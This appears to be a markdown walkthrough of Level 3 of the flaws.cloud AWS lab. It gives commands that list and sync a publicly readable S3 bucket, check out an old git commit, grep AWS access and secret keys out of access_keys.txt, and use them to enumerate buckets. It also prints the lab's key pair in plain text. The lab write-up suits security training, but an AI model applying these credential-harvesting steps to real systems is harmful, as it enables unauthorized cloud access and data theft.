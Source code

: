 ### Level 3 Tools
1. [`aws s3 ls`](https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html "AWS S3 List Command")
2. [`aws s3 sync`](https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html "AWS S3 bucket copy Command")
3. [`curl`](https://curl.haxx.se/ "Curl Command Line Tool")
4. [git](https://github.com/git-guides/install-git "Git Command Line Tool")




### Commands Used in Level 3
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------     |
| 3. :pager: Command                                                                           | Description                                                             |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------     |
| 3.0. :pager: Access Key in Git Log Commits                                                | Older Git Commits Contains access_keys.txt                                 |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------     |
| 3.1. :pager:  `Flaws-Scripts/aws_cli_configure.sh`   | Configure AWS CLI                        |
| 3.2. :pager: `aws s3 ls --profile $AWS_USER_NAME $L3_BUCKET_URL` | Access & List S3 Bucket Files using AWS CLI - Authenticated |
| 3.2. :pager: `aws s3 ls $L3_BUCKET_URL --no-sign-request --region $AWS_REGION` | Access & List S3 Bucket Files using AWS CLI - Authenticated |
| 3.3. :pager: `aws s3 sync --profile $AWS_USER_NAME $L3_BUCKET_URL --region $AWS_REGION ./flaws3` | Access & List S3 Bucket Files using AWS CLI - Authenticated |
| 3.4. :pager: `cd flaws3 && git log` | View Latest Git Commit Log  |
| 3.5. :pager: `git checkout $L3_COMMIT` | View Latest Git Commit Log  |
| 3.6. :pager: `export L3_ACCESS_KEY=$(grep -oP '^access_key\s+\K[A-Za-z0-9]+' $L3_SECRET_FILE)` | Get AWS Level Access Key  |
| 3.7. :pager: `export L3_SECRET_KEY=$(grep -oP '^secret_access_key\s+\K[A-Za-z0-9+/]+' $L3_SECRET_FILE)` | Get AWS Secret Access Key  |
| 3.8. :pager: `Scrtips/aws_cli_configure_L3Profile.sh` | Set L3 Found Profile URL  |
| 3.9. :pager: `aws --profile $L3_USER s3 ls` | List all S3 Buckets  |
| 3.10. :pager: `aws s3 ls --profile $L3_USER_NAME | grep -oP 'level4-\S+\.flaws\.cloud'` | Get Level 4 URL (All Levels)  |
| 3.11. :pager:  `Flaws-Scripts/aws_cli_configure_L3Profile.sh`   | Configure AWS CLI                        |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------|






### Important Notes from Level 3
|-------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------|
| 3. :pushpin: Pin                 | Content                                                                                  |
|-------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------|
| 3.0. :pushpin: Access Key in Git Log Commits  | Older Git Commits Contains access_keys.txt                                                                        |  
|-------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------|
| 3.1. :pushpin:  Level 3 URL          | [Level 3 URL](http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud)                                                             |
| 3.2. :pushpin:  Level 3 Bucket URL          | [Level 3 URL](s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud)                                                             |
| 3.3. :pushpin:  Level 3 Sensitive Git Commit          | f52ec03b227ea6094b04e43f475fb0126edb5a61                                                             |
| 3.4. :pushpin:  Level 3 User          | L3Profile                                                             |
| 3.5. :pushpin:  Level 3 Access Keys File          | access_keys.txt                                                             |
| 3.6. :pushpin:  Level 3 Access Key ID          | AKIAJ366LIPB4IJKT7SA                                                             |
| 3.7. :pushpin:  Level 3 Secret Access Key ID          | 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                                                             |
| 4.1. :pushpin: Level 4 URL                             | [Level 4](level4-1156739cfb264ced6de514971a4bef68.flaws.cloud) |      



